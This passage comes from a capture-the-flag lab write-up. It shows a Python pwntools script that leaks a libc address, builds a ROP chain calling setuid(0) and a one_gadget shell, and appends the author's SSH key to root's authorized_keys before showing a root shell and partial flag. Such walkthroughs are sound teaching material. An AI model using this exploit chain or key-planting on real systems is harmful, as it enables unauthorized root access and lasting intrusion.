 ```
stage_1 = junk + pop_rdi + puts_got + puts_plt + main
garbage.sendline(stage_1)
garbage.recvuntil("access denied.\n")
leaked_puts = u64(garbage.recvline()[:-1].ljust(8, '\x00'))
log.success("Leaked puts address: 0x%x" % leaked_puts)
garbage.recvuntil("Enter access password: ")

# offsets
libc_puts    = 0x809c0  # readelf -s /lib/x86_64-linux-gnu/libc.so.6 | grep " puts@@GLIBC"
libc_exec_sh = 0x4f322  # one_gadget gadget garbage
libc_setuid  = 0xe5970  # readelf -s libs/libc6_2.27-3ubuntu1_amd64/libc.so.6 | grep " setuid@@GLIBC"
libc_base   = leaked_puts - libc_puts

stage_2 = junk + pop_rdi + p64(0) + p64(libc_setuid + libc_base) + p64(libc_exec_sh + libc_base)
garbage.sendline(stage_2)
garbage.recvuntil("access denied.")
garbage.sendline('echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC0SwpwZ7rgMtCZYzkDtFJvQZO20N+8DmYxOix+PgL6VQW/9wZC3xnKK1zeAelMYtv/O38GXE2ghUH7z6ayVmTMkjGqt18mhsEpCt0BbonGRC0IHoBsV5QBVNin+x1soVdECT1Tr45bNnTnkZXIgSyDumc+    2Ix6A1wiiC5RbI3SrxJ7nL0lRlhjdoAH6KCb4dwhX+Jos0VudHRreE01+0YE0Qb7Sd0eA5Cq7UtjgiW6VyXcmWH7aQdVZlUanrs5wdwWYeVCxY/XfFCCDmHZw+8W5INudM2t7on7bl/rYnhAExOr14/1s7LfYAfV8B6VNPPX+IOzOcT4aYQC3rRDiG5P root@kali" >> /root/.ssh/      authorized_keys')
garbage.interactive()

```

I added a line to write my public key into root’s `authorized_keys` file, just for extra access.

When I run it, I have a shell, and can get the flag:

```

root@kali# ./root_shell.py
[+] Connecting to 10.10.10.139 on port 22: Done
[*] margo@10.10.10.139:
    Distro    Ubuntu 18.04
    OS:       linux
    Arch:     amd64
    Version:  4.15.0
    ASLR:     Enabled
[+] Starting remote process 'garbage' on 10.10.10.139: pid 24021
[+] Leaked puts address: 0x7f2c6ea789c0
[*] Switching to interactive mode

# $ id
uid=0(root) gid=1002(margo) groups=1002(margo)
# $ cat /root/root.txt
1cc73a44...

```

## Beyond Root
